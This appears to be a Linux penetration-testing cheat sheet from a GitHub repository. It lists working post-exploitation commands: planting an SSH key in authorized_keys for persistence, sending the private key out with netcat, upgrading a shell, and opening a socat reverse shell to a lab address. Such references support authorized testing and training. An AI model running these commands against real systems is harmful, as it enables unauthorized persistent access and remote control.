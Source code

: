 # SSH
- Using .ssh/authorized_keys
  - Create the keys: `ssh-keygen -t rsa`
  - Copy the public key to .ssh/authorized_keys: `cp id_rsa.pub ~/.ssh/authorized_keys`
  - Change the permissions of the .ssh folder to 700: `chmod 700 ~/.ssh`
  - Change the permissions of the .ssh/authorized_keys file to 600: `chmod 600 ~/.ssh/authorized_keys`
  - Download the private key: `nc ip port < id_rsa`
  - Change the permissions of the local private key to 600: `chmod 600 id_rsa`
  - Log in using SSH: `ssh -i id_rsa user@ip`

# [Upgrading TTY](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/)
- With Python:
```bash
	python -c 'import pty; pty.spawn("/bin/bash")'
	ctrl+z
	echo $TERM && tput lines && tput cols
	stty raw -echo
	fg
	export SHELL=bash
	export TERM=xterm-256color
	stty rows 24 columns 121
```
- With Socat:
```bash
	socat file:`tty`,raw,echo=0 tcp-listen:4445
	socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.10.14.35:4445
```

# [General](https://github.com/PinkDraconian/InfoSecCheatSheets/blob/master/linux/general.md)
# [Enumeration](https://github.com/PinkDraconian/InfoSecCheatSheets/blob/master/linux/enumeration.md)
# [Local File Inclusion](https://github.com/PinkDraconian/InfoSecCheatSheets/blob/master/linux/local%20file%20inclusion.md)
# [Networking](https://github.com/PinkDraconian/InfoSecCheatSheets/blob/master/linux/networking.md)
# [Characters not allowed](https://github.com/PinkDraconian/InfoSecCheatSheets/blob/master/linux/characters%20not%20allowed.md)
# [Exploitation](https://github.com/PinkDraconian/InfoSecCheatSheets/blob/master/linux/exploitation.md)
